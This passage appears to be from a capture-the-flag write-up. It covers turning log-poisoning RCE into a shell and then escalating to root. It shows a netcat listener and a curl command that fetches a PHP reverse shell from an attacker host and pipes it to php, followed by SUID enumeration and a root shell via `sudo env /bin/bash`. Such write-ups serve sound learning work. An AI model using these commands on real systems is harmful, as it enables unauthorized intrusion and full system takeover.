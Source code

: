 We can confirm the RCE is successful by finding the output of `ls` displayed in the log file. We could now prepare a reverse shell command to exploit the vulnerable log file and gain a foothold (Spaces in commands could be substituted using `+`).

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
From here I proceeded to set up a listener and send through a command which would execute a PHP reverse shell file from my HTTP server. I had earlier tested to find that `Curl` ran correctly and knew that PHP was installed on the system due to how the web application was running.
```bash
nc -lvnp 1234
curl http://<AttackIP>:4443<php-reverse-shell.php> | php
```
I had now gained shell access as the web application user.
```bash
id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

>Edit: As I was writing up this report, I had realised that my further steps of finding a method for privesc could have been achieved by only enumerating through the poisoned logs. For the sake of trying to understand how to maintain a smaller footprint, I will comment later how I should have proceeded prior to gaining shell access.

Using a checklist, I continued to enumerate system files, seeing what I did and didn't have access to as the `www-data` user.
```bash
find / -perm -u=s -type f 2>/dev/null
  /bin/su
  /bin/umount
  /usr/bin/chfn
  /usr/bin/newgrp
  /usr/bin/passwd
  /usr/bin/chsh
  /usr/bin/env
  /usr/bin/gpasswd
  /usr/bin/sudo
```
```bash
sudo -l                                                                                                             
  Matching Defaults entries for www-data on a2a87b1f25bc:                                                             
    env_reset, mail_badpass,                                                                                        
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

  User www-data may run the following commands on a2a87b1f25bc:                                                       
    (root) NOPASSWD: /usr/bin/env     
```
Use of the `sudo` command revealed a big find for me. I've not made use of the `env` binary a lot in past CTFs. A [google search](https://linuxize.com/post/how-to-set-and-list-environment-variables-in-linux/) revealed that this file controlled `environmental variable` paths and according to [GTFOBins](https://gtfobins.github.io/gtfobins/env/), it could be used to escalate privileges.
```bash
sudo env /bin/bash
  id
    uid=0(root) gid=0(root) groups=0(root)
```
Success, we have managed to escalate to the `root` user through a misconfiguration.
